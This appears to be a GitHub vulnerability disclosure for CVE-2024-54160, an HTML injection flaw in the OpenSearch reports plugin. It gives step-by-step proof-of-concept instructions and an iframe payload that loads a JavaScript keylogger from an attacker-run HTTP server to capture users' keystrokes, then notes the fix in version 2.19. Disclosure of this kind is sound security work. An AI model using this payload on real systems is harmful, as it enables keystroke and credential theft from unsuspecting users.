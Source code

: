 # [CVE-2024-54160]-Opensearch-HTML-Injection

It was found that the Opensearch plugin called "reports" was vulnerable to HTML-injection in version 2.18.0.
The report functionality allowed users to store HTML in the header and footer while creating a new report definition. 
Below is a quick proof of concept where I stored an iframe in the header functionality that fetched a JavaScript keylogger from my local machine which recorded the keys typed by the user.

# PoC
1. Edit the keylogger.html file and add a local IP which python3 http.server is running on.
2. Save the keylogger.html 
3. Start the python3 server with "python3 -m http.server" in the same path as the keylogger.html file
4. Go to Reports
5. Fill the required fields
6. Select PDF
7. Enable header or footer
8. Enter the iframe payload -> ```<iframe src="http://<IP>:8000/keylogger.html">```
9. Click "Preview" - The keylogger should be loaded from the python server
10. Type something on the keyboard and watch the response in the python server

# Screenshot of the PoC in action
- The iframed content is rendered to the left (I know it's simple and ugly, but it works for a poc :) ).
- The logged keystrokes are shown to the right. (The keylogger PoC was not optimal since it missed some keystrokes though!)

![Screenshot 2024-12-17 141054](https://github.com/user-attachments/assets/bc066e1e-3878-4d3e-9eb2-449066569427)

# Remedial Action
This is remediated in Opensearch version 2.19, where the data passed in the footer/header functionality are sanitized with DOMpurify.

Release notes
https://github.com/opensearch-project/opensearch-build/blob/main/release-notes/opensearch-release-notes-2.19.0.md

# PR from Opensearch
https://github.com/opensearch-project/dashboards-reporting/pull/476

